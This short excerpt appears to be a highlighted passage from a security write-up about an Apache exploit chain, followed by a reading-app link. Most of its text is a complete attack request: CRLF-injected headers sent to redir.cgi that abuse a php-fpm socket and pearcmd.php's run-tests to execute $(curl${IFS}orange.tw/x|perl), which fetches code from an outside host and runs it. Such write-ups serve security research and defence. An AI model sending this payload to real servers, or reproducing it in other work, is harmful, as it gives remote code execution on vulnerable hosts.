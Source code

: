 

we utilize a Command Injection within `run-tests` to complete the entire exploit chain, detailed as follows:
 > http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
 > 
 > ***Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}orange.tw/x|perl) %2b alltests.php*** %0d%0a
 > 
 > ***Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php*** %0d%0a
 > 
 > %0d%0a [](https://read.readwise.io/read/01jnnkph3kapcxw2fke7gy7vjb)

